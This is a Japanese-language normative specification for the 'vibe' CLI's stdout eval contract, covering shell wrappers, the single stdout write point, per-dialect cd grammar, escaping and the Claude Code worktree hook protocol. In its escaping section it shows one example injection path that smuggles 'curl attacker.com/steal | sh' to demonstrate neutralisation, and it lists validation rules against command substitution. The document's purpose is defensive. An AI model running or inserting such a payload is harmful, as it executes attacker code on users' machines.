

> 🇺🇸 [English](./eval-contract.md)

# The stdout Eval Contract

> **ステータス: Normative（規範）。** このディレクトリにある他の歴史的な仕様書とは異なり、本ドキュメントは**現在の** Rust 実装を記述したものであり、シェル eval プロトコルの single source of truth です。コードと仕様は常に一緒に変更してください。

**MUST** / **MUST NOT** というキーワードは RFC 2119 の意味で用います。実装および今後のあらゆる変更が維持しなければならない不変条件を示します。

## 1. 概要

子プロセスは親シェルのカレントディレクトリを変更できません。`vibe start` はユーザーのシェルの子プロセスとして動作するため、シェルの代わりに `cd` することはできません。代わりに、シェルのラッパー関数がバイナリの stdout を親シェルのコンテキストで評価（eval）します。

このため **stdout は実行可能なシェルコード**、すなわち *eval チャネル* になります。人間が読むためのものはすべて stderr、すなわち *human チャネル* に出力されます。

したがって、stdout に紛れ込んだ 1 バイトはユーザーのシェルによって実行されてしまいます。以下の契約は、それを構造的に不可能にするために存在します。

## 2. 用語

| 用語              | 意味                                                                                             |
| ----------------- | ------------------------------------------------------------------------------------------------ |
| **eval チャネル** | stdout。ラッパーがそのまま受け取り、シェルコードとして実行する。                                    |
| **human チャネル**| stderr。進捗・ログ・警告・エラー・`--help`・`--version`。決して eval されない。                     |
| **ラッパー**      | `vibe shell-setup` が出力するシェル関数。バイナリを実行し、その stdout を eval する。                |
| **子バイナリ**    | 実体の `vibe` 実行ファイル。ラッパーを迂回するため `command vibe` / `^vibe` / `vibe.exe` として呼ぶ。 |
| **`Outcome`**     | コマンドハンドラが返す値（`rust/crates/vibe-core/src/commands/mod.rs`）。バイナリが stdout に何を書くべきか（あるいは書かないか）を表す。 |
| **dialect（方言）** | 内部グローバルフラグ `--eval-dialect <posix\|nu\|powershell>` で選択される出力文法のバリアント。Posix がデフォルト（フラグが無いときは常に Posix）であり、後方互換のレガシー文法。 |

## 3. シェルごとのラッパー関数

`rust/crates/vibe-core/src/commands/shell_setup.rs` の `shell_function` が出力します。1 行につき末尾に `\n` が 1 つ付きます。

| シェル       | ラッパー文字列（バイト単位で厳密）                                                |
| ------------ | -------------------------------------------------------------------------------- |
| bash, zsh    | `vibe() { eval "$(command vibe "$@")"; }`                                         |
| fish         | `function vibe; eval (command vibe $argv); end`                                   |
| nushell      | `def --env --wrapped vibe [...args] { let out = (^vibe --eval-dialect nu ...$args); for line in ($out \| lines) { if ($line \| str starts-with "__VIBE_CD__") { cd ($line \| str replace "__VIBE_CD__" "") } else { print $line } } }` |
| powershell   | `function vibe { $out = & vibe.exe --eval-dialect powershell @args; if ($out) { Invoke-Expression ($out -join "`n") } }` |

- ラッパー文字列と補完スクリプトの出力は、リリースをまたいでバイト単位で同一を保つこと（**MUST**）。ユーザーの rc ファイルに既に読み込まれているラッパーはアップグレード時に再生成されず、正確なバイト列に依存しています。nushell と powershell の行は `--eval-dialect` を導入したリリースで一度だけ変更されました。その例外の記録は §9 を参照してください。
- **bash / zsh / fish のラッパーは変更されていません**。`--eval-dialect` を渡さず、Posix のデフォルトに依存します。
- nushell と powershell のラッパーは内部フラグ `--eval-dialect` を渡します。`--claude-code-worktree-hook` と同様に内部フラグであり、生成される補完に現れてはなりません（**MUST**、`rust/crates/vibe/src/cli.rs` の `INTERNAL_FLAGS_NOT_EXPOSED`）。
- nushell のラッパーは **nu 0.83 以上**を必要とします（このバージョン以降、`str replace` はデフォルトでリテラル一致になります）。また `each` ではなく `for` を使わなければなりません（**MUST**）。nushell では `each` のクロージャ内の環境変更は破棄されるため、`each` の中の `cd` は呼び出し元に届きません。
- nushell のラッパーは `--wrapped` を付けて宣言しなければなりません（**MUST**）。これが無いと、nu は*パース時*にシグネチャと照合してフラグを解決するため、フラグを伴う `vibe` の呼び出し（`vibe start -b`、`vibe clean --force` など）は本体が実行される前に失敗します。`--wrapped` は未知のフラグをそのまま `...args` の rest パラメータに渡すため、これがフラグ転送を成立させています。
- `--with-completion` は補完スクリプト（fish と zsh のみ）と末尾の `\n` を追記します。それ以外のシェルは `VibeError::Configuration`（終了コード 1）です。
- 認識できない `--shell` / `$SHELL` の値も同様に `VibeError::Configuration`（終了コード 1）であり、`Argument` エラー（終了コード 2）ではありません。

## 4. 規範ルール: stdout

### 4.1 唯一の書き込み地点

- `rust/crates/vibe/src/eval_output.rs::write_outcome` が、プロダクションコードで stdout に書き込む**唯一の**関数です。
- 呼び出しは `rust/crates/vibe/src/main.rs` の `dispatch` の `Ok` 分岐から**ちょうど 1 回**だけ行われます。
- プロダクションコード中のその他の `println!` / `print!` / `std::io::stdout()` / `dbg!` は欠陥です。`vibe-core` のコマンドハンドラは出力してはならず（**MUST NOT**）、`Outcome` を返してバイナリに判断を委ねます。
- このルールは文書上の約束ではなく、**機械的に強制**されています。clippy の `print_stdout` と `dbg_macro` を workspace 全体で deny し、`rust/clippy.toml` の disallowed-methods に `std::io::stdout` を登録しています。workspace 内で唯一の `#[allow]` は `rust/crates/vibe/src/eval_output.rs` にあります。他の場所に stdout への書き込みを追加すると `just check-rust` / CI が落ちます。
- `write_outcome` が失敗した場合（後述の改行ガード）、エラーは stderr に報告されプロセスは非ゼロで終了します。stdout には何も書かれません。

### 4.2 `Outcome` のバリアント別 stdout 文法

| コンストラクタ             | 出力される stdout                                     | 使用箇所                                            |
| -------------------------- | ----------------------------------------------------- | --------------------------------------------------- |
| `Outcome::none()`          | 何も出力しない（0 バイト）                             | `config`, `verify`, `trust`, `untrust`, `upgrade`, dry run, フック モードの `clean` |
| `Outcome::cd(path)`        | ちょうど 1 行。選択された dialect の文法に従う（§4.3）  | `start`, `scratch`, `jump`, `rename`, `clean`, `home` |
| `Outcome::stdout(text)`    | `text` をそのまま出力。複数行可、末尾の改行は文字列自身が持つ | `shell-setup`（ラッパー + 補完）                     |
| `Outcome::stdout_path(p)`  | パス `p` のみ。末尾に改行を**付けない**                 | `start --claude-code-worktree-hook`                  |

追加のルール:

- `cd_path` と `stdout` は**構造上排他**です。どのコンストラクタも高々一方しか設定しません。`write_outcome` には `debug_assert!` があり、両方を設定する将来のコンストラクタは `stdout` を黙って捨てる前に検出されます。
- `write_outcome` は `\n` または `\r` を含む `cd_path` を拒否し、出力せずエラーを返さなければなりません（**MUST**）。改行があると 1 行の `cd` が途中で終わり、攻撃者が制御するパスから 2 つ目のコマンドを eval に注入できてしまいます。
- `Outcome::stdout_path` は同じ `\n` / `\r` ガードを**構築時**に適用し、`Err` を返します。worktree のパスはユーザーの `path_script` から導出されうるため、この用途では信頼できない入力です。
- `Outcome::stdout` は**信頼できる、手作りのペイロード専用**です（ラッパー関数と補完スクリプト。これらは正当に改行を含みます）。信頼できないテキストを渡してはなりません（**MUST NOT**）。

### 4.3 Dialect: `cd` の文法

内部グローバルフラグ `--eval-dialect <posix|nu|powershell>` が、`Outcome::cd` に使う文法を選択します。受け付けるエイリアスは `nu` / `nushell`、`powershell` / `pwsh` です。

| Dialect                           | `Outcome::cd(path)` の stdout                          |
| --------------------------------- | ------------------------------------------------------- |
| Posix（デフォルト、フラグ無し）     | `cd '<'\'' でエスケープしたパス>'` + `\n`                 |
| Nushell（`nu`, `nushell`）        | `__VIBE_CD__<生のパス>` + `\n`                           |
| Powershell（`powershell`, `pwsh`）| `Set-Location -LiteralPath '<'' でエスケープしたパス>'` + `\n` |

規範ルール:

- `--eval-dialect` が無い場合、出力は Posix 文法とバイト単位で同一でなければなりません（**MUST**）。デフォルト経路はレガシーの wire format であり、ずれることは許されません。
- dialect が影響するのは `cd` の結果**のみ**です。`Outcome::none()` / `Outcome::stdout(text)` / `Outcome::stdout_path(p)` は **dialect 不変**であり、`shell-setup` の出力・フックのパス・空の場合はどの dialect でも同じバイト列です。
- `cd_path` に対する `\n` / `\r` ガード（§4.2）は dialect のディスパッチ**より前**に適用されます。したがって、1 行という不変条件を壊しうるパスがどの dialect にも到達することはありません。
- nushell dialect はパスを**コードではなくデータとして**出力します。`__VIBE_CD__` というセンチネルが生のクォートされていないパスを枠付けし、ラッパーは接頭辞を取り除いた残りを文字列値として `cd` に渡します。行のどの部分も nushell のソースとして解析されることはありません。

## 5. 規範ルール: stderr

- 人間向けの出力はすべて stderr に出さなければなりません（**MUST**）。`log` / `verbose_log` / `success_log` / `warn_log` / `error_log`（`rust/crates/vibe-core/src/output.rs`）、進捗表示（`ProgressDrawTarget::stderr()`）、対話プロンプト、clap の `--help` とパースエラー、独自の `--version` ブロックが該当します。
- clap のエラーは `main.rs` で明示的に stderr に書かれます（そうしないと clap は `--help` を stdout に出し、ラッパーがそれを実行してしまいます）。
- ライフサイクルフックの出力（`rust/crates/vibe-core/src/hooks.rs`）: プログレストラッカーが無い場合、フックの **stdout は stderr へ転送**されます。トラッカーがある場合は表示を乱さないよう抑制されます。失敗したフックの stderr は常に表示されます。フックの出力はいかなる構成でもプロセスの stdout に到達してはなりません（**MUST NOT**）。
- `vibe-core` は stdout に一切書き込んではなりません（**MUST NOT**）。そもそも stdout の seam を持ちません。

## 6. エスケープ

`rust/crates/vibe-core/src/shell.rs`:

- `shell_escape(value)` は各 `'` を `'\''` に置換します（引用を閉じる → エスケープされたリテラルのクォート → 引用を再開）。`$`・バッククォート・二重引用符はシングルクォート内では不活性なのでそのまま残します。
- `escape_shell_path` はパス向けのエイリアスです。
- `format_cd_command(path)` は `cd '<escaped>'` を生成します。
- これらの関数の出力はバイト単位で安定していなければなりません（**MUST**）。このエスケープがシェル出力インジェクションへの対策そのものであり、インストール済みのラッパーが正確な文法に依存しています。

例: `/tmp/x'; curl attacker.com/steal | sh; echo '` は `cd '/tmp/x'\''; curl attacker.com/steal | sh; echo '\'''` となり、単一の不活性な `cd` 引数になります。

各 dialect は、それぞれのシェル自身の規則に従ってクォートします。

| Dialect    | エスケープ                                                                                  |
| ---------- | -------------------------------------------------------------------------------------------- |
| Posix      | `'` → `'\''`（引用を閉じる → エスケープされたリテラルのクォート → 引用を再開）。パス全体をシングルクォートで囲みます。 |
| Powershell | `'` → `''`（PowerShell はシングルクォート文字列内のシングルクォートを 2 つ重ねてエスケープします）。`Set-Location` には `-Path` ではなく `-LiteralPath` を使います。`-Path` は `[` `]` `*` `?` をワイルドカードとして解釈しますが、これらはパスに含まれうる正当な文字だからです。 |
| Nushell    | **エスケープしません。** パスは `__VIBE_CD__` センチネルの後ろに生のまま出力されます。nushell のシングルクォート文字列はエスケープシーケンスを一切サポートしないため、そもそもエスケープ先が存在しません。センチネルによる枠付けがパスを純粋なデータにし、エスケープを不要にします。 |

### 6.1 既知の制限と経緯の記録

dialect 機構の導入以前、nushell と powershell のラッパーは壊れていました。本ドキュメントの過去の版がそれと異なる記述をしていたため、ここに明記します。

- **nushell — 旧ラッパーはそもそも一度も動作していませんでした。** `... | each { |line| nu -c $line }` は 1 行ごとに**子**プロセスの `nu` を起動します。子プロセス内の `cd` は呼び出し元のディレクトリを変更できないため、クォートの有無にかかわらずどのパスも反映されませんでした。さらに POSIX の `'\''` イディオムは nushell では**パースエラー**です。nushell のシングルクォート文字列はエスケープシーケンスを一切サポートせず、nushell には `eval` もありません。さらに、フラグの転送も一切できませんでした。旧シグネチャは `--wrapped` ではなかったため、nu はパース時にフラグを解決し、フラグを伴う呼び出し（`vibe start -b`、`vibe clean --force` など）を本体の実行前にすべて拒否していました。nushell 0.113.1 上で実測により確認済みです。「シングルクォートを含まない通常のパスは 5 つのシェルすべてで正しく動作する」という以前の記述は **nushell については誤り**でした。nushell では何ひとつ動作していませんでした。クォートされたパスも、通常のパスも、フラグもです。
- **powershell — 旧ラッパーは 2 つの別々の理由で壊れていました。** `Invoke-Expression (& vibe.exe $args)` は POSIX エスケープされた行を PowerShell のクォート規則で解釈するため、シングルクォートを含むパスを誤って扱いました。加えて、バイナリが stdout に何も出さない場合（`Outcome::none()` のコマンドすべて）、`Invoke-Expression` が空の引数で呼ばれ *"Cannot bind argument to parameter 'Command'"* を送出していました。

いずれも dialect 機構によって解消されています。nushell はもはや行をコードとして評価せず、powershell は自身のクォート方言を受け取り、新しい powershell ラッパーは `if ($out)` で呼び出しをガードします。

残っている制限:

- **ラッパーは自動的に再生成されません。** 旧い nushell / powershell のスニペットを rc ファイルに貼り付けたユーザーは、`vibe shell-setup` を再実行する（またはドキュメントからスニペットを貼り直す）まで、旧来の壊れた挙動のままです。これは設計上の意図です。vibe がユーザーのシェル設定を書き換えることはありません。
- Posix 系ラッパー（bash / zsh / fish）のバイト列は変更されていないため、動作していた構成への影響はありません。

## 7. 隣接プロトコル: Claude Code worktree フック（stdin JSON）

`start` と `clean` は `--claude-code-worktree-hook` を受け付けます。これは Claude Code 向けの内部フラグであり、人間向けではありません。`rust/crates/vibe/src/cli.rs` の `INTERNAL_FLAGS_NOT_EXPOSED` により、生成される補完からは除外されています。

### 7.1 リクエスト（stdin）

`rust/crates/vibe-core/src/stdin.rs`（信頼できない入力の境界）が読み取ります。

| ルール                                                                                            |
| ------------------------------------------------------------------------------------------------- |
| ペイロードは単一の JSON **オブジェクト**でなければなりません（**MUST**）。配列・スカラー・`null` は拒否されます。 |
| ペイロードは 1 MB 以下でなければなりません（**MUST**、`MAX_STDIN_SIZE`）。読み込みは `max + 1` バイトで打ち切られるため、巨大なペイロードが丸ごとバッファされることはありません。 |
| 空・空白のみ・パース不能な入力は値なしとして扱われます（コマンド側が stderr に使用法エラーを報告します）。 |

フィールド:

- `start`: `{"name": "<branch>"}` — 空でない文字列でなければならず（**MUST**）、NUL バイトを含んではならず（**MUST NOT**）、`-` で始まってもなりません（**MUST NOT**、`--force` / `-b` を `git worktree add` のフラグ位置に紛れ込ませないため）。CLI 引数でブランチ名が与えられた場合はそちらが優先されます。
- `clean`: `{"worktree_path": "<絶対パス>"}` — 空でない絶対パスで、`validate_path` を通過しなければなりません（**MUST**、NUL・`\n`/`\r`・`$(`・バッククォートを含まないこと）。さらに `clean` は、実際の git worktree 一覧に含まれないパスを拒否します。

### 7.2 レスポンス（stdout）

| コマンド                            | stdout                                                                |
| ----------------------------------- | ---------------------------------------------------------------------- |
| `start --claude-code-worktree-hook` | `Outcome::stdout_path` による worktree のパスのみ。末尾の改行**なし**、`cd` 行では**ない** |
| `clean --claude-code-worktree-hook` | 何も出力しない（`Outcome::none()`）。ナビゲーションは Claude Code が制御する |
| 両方、dry run / パス拒否時          | 何も出力しない                                                          |

いずれの診断出力も `[cc-worktree-hook]` 接頭辞付きの行として stderr に出ます。

## 8. テストの責務

| 階層                                                     | 何を保証するか                                                                                       |
| -------------------------------------------------------- | ------------------------------------------------------------------------------------------------------ |
| ユニットテスト（`vibe-core` / `vibe` の `#[cfg(test)]`）   | ハンドラのロジックと、ハンドラが返す `Outcome`。プロセス境界が存在しないため、ストリームの分離は**証明できない**。 |
| `rust/crates/vibe/tests/eval_contract.rs`                 | **ビルド済み**バイナリを stdout / stderr を**別々のパイプ**で駆動し、各ストリームの正確なバイト列を検証する。分離を証明できる唯一の階層。 |
| `rust/crates/vibe/tests/wrapper_round_trip.rs`            | **実際のシェル**（bash / zsh / fish / nu / pwsh）を起動し、バイナリが出力したラッパーを読み込ませ、シェル自身の cwd が実際に変わったことを検証する。シングルクォートを含むパスも対象。バイト列が期待どおりかではなく、ラッパーが**動作する**ことを証明できる唯一の階層。各シェルはインタプリタが無ければスキップされるが、`VIBE_REQUIRE_SHELLS` を設定すると不在が失敗になる。CI ではこれを設定しており、シェルが黙ってスキップされることはない。 |
| PTY E2E（`packages/e2e`）                                 | 対話的な振る舞い（プロンプト、TTY 判定）。PTY は設計上 2 つのストリームを**統合**するため、分離は検証できない。 |

ルール: stdout / stderr の分離に影響する変更は、`rust/crates/vibe/tests/eval_contract.rs` にケースを追加しなければなりません（**MUST**）。ラッパー、または dialect の `cd` 文法への変更は、加えて `wrapper_round_trip.rs` でカバーしなければなりません（**MUST**）。

### 8.1 トレーサビリティ: MUST → 強制手段

| 規範ルール                                        | 機械的な強制手段                                                            |
| ------------------------------------------------ | --------------------------------------------------------------------------- |
| 唯一の stdout 書き込み地点（§4.1）                 | clippy `print_stdout` / `dbg_macro` を workspace 全体で deny、`rust/clippy.toml` で `std::io::stdout` を禁止、唯一の `#[allow]` は `eval_output.rs` |
| dialect 別のバイト厳密な stdout 文法（§4.2, §4.3, §6） | `rust/crates/vibe/tests/eval_contract.rs` のバイト厳密ケース                 |
| ラッパーが実際にシェルの cwd を変える（§3）        | `rust/crates/vibe/tests/wrapper_round_trip.rs`（実シェル、CI では `VIBE_REQUIRE_SHELLS`） |
| 内部フラグが補完に露出しない（§3, §7）             | `rust/crates/vibe/src/cli.rs` の `INTERNAL_FLAGS_NOT_EXPOSED` 整合性テスト     |

## 9. 変更管理

以下は**破壊的変更**です。インストール済みのシェルラッパーと補完スクリプトが正確なバイト列に依存しているためです。

- `shell_setup.rs` のラッパー文字列のバイト単位の変更
- 生成される補完出力のバイト単位の変更
- `shell_escape` / `format_cd_command` の出力の変更
- `cd '<escaped>'` の文法の変更（行の追加、改行の削除、別コマンドへの変更）

これらの変更は破壊的リリースとして扱い、`eval_contract.rs` のケース更新と併せて行わなければなりません（**MUST**）。

### 9.1 変更記録: `--eval-dialect`（2.x マイナー）

`--eval-dialect` を導入したリリースは、**nushell と powershell** のラッパーのバイト列を変更しました。これはメジャーではなく **2.x のマイナー（`feat`）** としてリリースされており、上記ルールに対する意図的な例外です。

例外とする根拠: このルールは*動作している*ユーザー構成を保護するために存在します。置き換えた 2 つのラッパーはいずれも動作していませんでした。nushell 版は独立した 3 つの理由で構造的に機能不全（子プロセスの `nu` 内での `cd`、パース不能な POSIX エスケープ、そして `--wrapped` でないシグネチャによりフラグを伴う呼び出しをパース時にすべて拒否）であり、powershell 版は stdout が空のコマンドすべてで例外を送出し、クォートを含むパスを誤って扱っていました（§6.1）。一度も機能したことのないラッパーの置き換えは、何も退行させません。ユーザーが実際に依存している bash / zsh / fish のラッパーのバイト列は変更していません。

互換性マトリクス:

| 組み合わせ                     | 挙動                                                                                          |
| ------------------------------ | ---------------------------------------------------------------------------------------------- |
| 旧ラッパー + 新バイナリ         | `--eval-dialect` が渡されない → Posix dialect → **現在とまったく同じバイト列**。退行なし。旧ラッパーは（bash/zsh/fish なら動作したまま、nu/pwsh なら壊れたまま）従来どおり。 |
| 新ラッパー + 旧バイナリ         | clap が未知のフラグを拒否し **終了コード 2**、stdout は空、何も eval されません。安全側に倒れます。ユーザーには stderr に clap のエラーが表示され、行の一部が実行されることはありません。 |
| 新ラッパー + 新バイナリ         | 5 つのシェルすべてで `cd` が動作します。シングルクォートを含むパスも含みます。                     |

*今後*、動作していることが分かっているラッパーへの変更は、引き続き破壊的変更として扱わなければなりません（**MUST**）。

## 10. 参照

実装の ground truth:

- `rust/crates/vibe/src/eval_output.rs` — 唯一の stdout 書き込み地点と改行ガード
- `rust/crates/vibe/src/main.rs` — 唯一の呼び出し元。clap の出力を stderr へ振り分ける
- `rust/crates/vibe-core/src/commands/mod.rs` — `Outcome` とそのコンストラクタ
- `rust/crates/vibe-core/src/shell.rs` — `shell_escape`, `format_cd_command`
- `rust/crates/vibe-core/src/commands/shell_setup.rs` — シェルごとのラッパー文字列
- `rust/crates/vibe-core/src/output.rs`, `rust/crates/vibe-core/src/hooks.rs` — stderr 側
- `rust/crates/vibe-core/src/stdin.rs`, `rust/crates/vibe/src/cli.rs` — Claude Code フックのプロトコル、`--eval-dialect`、内部フラグの除外リスト
- `rust/clippy.toml` — `std::io::stdout` をプロダクションコードから締め出す disallowed-methods リスト
- `rust/crates/vibe/tests/eval_contract.rs` — この仕様の実行可能な形
- `rust/crates/vibe/tests/wrapper_round_trip.rs` — すべてのラッパーと dialect の実シェル往復テスト

関連ドキュメント:

- `docs/architecture.md` の "Shell Wrapper Architecture" — 設計の歴史（削除された TypeScript 実装を記述）
- `docs/SECURITY_CHECKLIST.md` §10 "Shell Output Injection" / §13 "eval / Dynamic Code Execution" — 本契約の脅威モデル視点
